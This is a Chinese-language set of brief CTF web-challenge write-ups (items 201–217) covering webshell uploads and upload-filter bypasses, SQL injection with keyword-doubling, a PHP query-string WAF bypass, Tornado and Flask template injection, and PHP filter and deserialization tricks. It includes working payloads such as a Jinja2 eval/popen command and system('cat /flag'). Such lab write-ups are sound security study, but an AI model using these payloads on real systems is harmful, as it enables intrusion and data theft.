## 201.[极客大挑战 2019]Knife





尝试直接用蚁剑



Syc=system('cat /flag');也可以

## 202.[ACTF2020 新生赛]Upload

简单的图片上传

## 203.[ACTF2020 新生赛]BackupFile

Try to find out source file!查找源代码 像是git泄露 扫描一下

```shell
python3 dirsearch.py -e php -u http://43fc8a22-9124-42d2-9d95-e6a089e8c908.node5.buuoj.cn:81 --exclude-status 403,401
```





构造key=123即可

## 204.[极客大挑战 2019]BabySQL

python sqlmap.py -r C:\Users\lin\Desktop\1.txt -p username --batch --dbs

找到过滤词语

uunionnion发现可以绕过 则是黑名单去除

union select 1,2,3


后面就常规操作


最后报字段?username=admin&password=admin' uunionnion sselectelect 1,2,group_concat(passwoorrd)ffromrom b4bsql;#


## 205.[极客大挑战 2019]PHP


按提示 扫盘后找到源码 发序列化


## 206.[RoarCTF 2019]Easy Calc







### PHP 字符串解析特性：

删除空白字符：

PHP 在解析 URL 查询字符串时会删除空格等空白字符。例如，在 GET 请求的查询字符串中，%20（表示空格）会被自动转换成一个空白字符，且最终会从查询字符串中删除。

转换特殊字符为下划线：

PHP 会将某些特殊字符（如方括号 []）转为下划线。例如，news[id] 会被解析为 news_id，因此 $_GET["news[id"] 会变成 $_GET["news_id"]。

### （WAF绕过）：

1. PHP 删除空格：

   当我们向查询字符串添加 %20（即空格），PHP 会在解析时将其 删除。例如，/? %20num=abc 会被解析为 /?num=abc，而 WAF 看到的是没有空格的 num=abc，因此 WAF 无法检测到 num 参数中的字母。

2. WAF 的检查点：

   WAF 是在 URL 传入时对参数进行检查的，它会看到带有空格的查询字符串并认为 num 参数根本不存在，从而没有进行字母检查。PHP 处理完空格后，num 参数就恢复为正常的格式 num=abc，WAF 因为空格被误导，未能检测到问题。

? num=var_dump(scandir(chr(47)))



最后查看flag文件：

/calc.php?%20num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))




## 207.[FSCTF 2023]是兄弟，就来传你の🐎！

上传一句话木马被阻止

上传图片文件头muma

文件名后缀改为pht，改文件名后缀是因为已经上传不了木马只能尝试用其他的



<?= 是php中的短标签相当于<?php echo

nl类似于cat,  `nl /*`的意思是把所有文件都打印出来



再访问文件


## 208.[LitCTF 2023]Follow me and hack me



传参

扫盘有彩蛋

## 209.[极客大挑战 2019]BuyFlag

从源码找到关键网站





传参没反应

再看提示说必须是quit学生 注意到cookie 将0修改为1，放行后提示太长

用e  2e9

## 210.[HCTF 2018]admin

看题目直接登录 账号admin 密码123直接成功了

## 211.[MRCTF2020]你传你🐎呢

直接上传php文件报错，改后缀也无法绕过

经过反复上传 初步断定要MIME绕过 再加上htaccess配置文件绕过



再上传图片码


## 212.[护网杯 2018]easy_tornado

打开网址



抓包查看传参形式

url由filename和filehash构成 当只有前者时报错

尝试注入error?msg={{handler.settings}}

构造**/file?filename=/fllllllllllllag&filehash=md5(cookie_secret+md5(/fllllllllllllag))**




## 213.[Flask]SSTI

https://github.com/vulhub/vulhub/blob/master/flask/ssti/README.zh-cn.md

先看他的项目链接





  
  
    
      {{ b['eval']('__import__("os").popen("id").read()') }}
    
  
  






## 214.[第三章 web进阶]SSTI



假的

假的flag

ls后查看其他文件


## 215.[ZJCTF 2019]NiZhuanSiWei


data://协议绕过第一个

后面要反序列化 但没有任何信息 也不能直接file读取flag 所以先看useless.php

php://filter/read=convert.base64-encode/resource=useless.php



读完后 file赋值为useless.php使其被include包含

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

最后序列化

最后url


## 216.[MRCTF2020]Ez_bypass






## 217.[极客大挑战 2019]HardSQL

sqlmap注入不了 手动注入

